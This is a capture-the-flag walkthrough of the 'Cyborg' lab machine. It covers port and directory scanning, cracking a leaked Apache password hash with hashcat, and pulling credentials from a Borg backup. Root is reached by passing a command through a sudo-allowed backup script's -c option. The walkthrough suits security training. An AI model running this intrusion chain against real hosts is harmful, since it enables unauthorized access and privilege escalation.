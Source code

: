 # Cyborg

## Enumeration

### I started by scan the ports to answer to the first question

I used this nmap command : nmap -A -p- -T4 _IP_
  - _-A or -sV : Enables version detection_
  - _-p- : to scan every 65535 port_
  - _-T<0-5>: Set timing template (higher is faster)_

```bash
└─$ nmap -A -p- -T4 10.10.252.51
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 13:02 BST
Nmap scan report for 10.10.252.51
Host is up (0.048s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.48 seconds
```
### I've found that 2 ports are opened 80 (http) and 22 (ssh),  with this I can answer the question 2 and 3

### After I used feroxbuster which is a very powerfull web fuzzer

```bash
└─$ feroxbuster --url http://10.10.252.51 --wordlist  /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 200

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.252.51
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       15l       74w     6143c http://10.10.252.51/icons/ubuntu-logo.png
301      GET        9l       28w      312c http://10.10.252.51/admin => http://10.10.252.51/admin/
200      GET      375l      968w    11321c http://10.10.252.51/
301      GET        9l       28w      310c http://10.10.252.51/etc => http://10.10.252.51/etc/
200      GET        6l       27w      258c http://10.10.252.51/etc/squid/squid.conf
[#>------------------] - 7m    193242/2370492 76m     found:5       errors:23897  
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_10_10_252_51-1720095021.state ...
[#>------------------] - 7m    193301/2370492 76m     found:5       errors:23923  
[#>------------------] - 7m     99544/1185240 241/s   http://10.10.252.51/ 
[#>------------------] - 7m     93730/1185240 227/s   http://10.10.252.51/admin/ 
[####################] - 2s   1185240/1185240 570925/s http://10.10.252.51/etc/ => Directory listing
[####################] - 2s   1185240/1185240 741702/s http://10.10.252.51/etc/squid/ => Directory listing
```
### I've look around /etc/squid and I've found the passwd file where the music_archive's password hash is written

## Exploitation

### music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.

```bash
└─$ hashcat -m 1600 -a 0 hash /usr/share/wordlists/rockyou.txt

$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:*********           
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
Time.Started.....: Thu Jul  4 13:34:59 2024 (1 sec)
Time.Estimated...: Thu Jul  4 13:35:00 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    38096 H/s (6.59ms) @ Accel:128 Loops:250 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 39936/14344385 (0.28%)
Rejected.........: 0/39936 (0.00%)
Restore.Point....: 38912/14344385 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:750-1000
Candidate.Engine.: Device Generator
Candidates.#1....: treetree -> prospect
Hardware.Mon.#1..: Temp: 84c Util: 97%

Started: Thu Jul  4 13:34:49 2024
Stopped: Thu Jul  4 13:35:01 2024
```
### On the /admin page, I could download archive.tar on the "Archive" tab and I've untar it

### In the README I've found the Borg documentation link : https://borgbackup.readthedocs.io/en/stable/, I've found a lot of command very usefull.

```bash
└─$ borg list home/field/dev/final_archive 

Enter passphrase for key /home/ciikorrr/CTF/Cyborg/home/field/dev/final_archive: 
music_archive                        Tue, 2020-12-29 14:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]

└─$ borg extract home/field/dev/final_archive::music_archive

└─$ cd home/alex/Documents

└─$ cat note.txt   
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:**********
```
### After have found the alex credentials, I'm connected on his ssh session

```ssh alex@IP```

## User FLAG

```bash
alex@ubuntu:~$ cat user.txt 
flag{**********************}
```

## Privilege Escalation

### I started with a basic sudo -l to enumerate all commands authorised by alex as another user, I've found that alex can execute a script as any user (so in root too)

```bash
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

### By luck, the backup.sh file is readable so I analyzed it
```bash
alex@ubuntu:~$ cat /etc/mp3backups/backup.sh
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done



backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```
### 2 things are interesting in the script

```bash
while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done
```
```bash
cmd=$($command)
echo $cmd
```
### If I specify a -c option to the script, it will run the command that I want

## Root FLAG

```bash
alex@ubuntu:~$ sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"

flag{***************************}
```



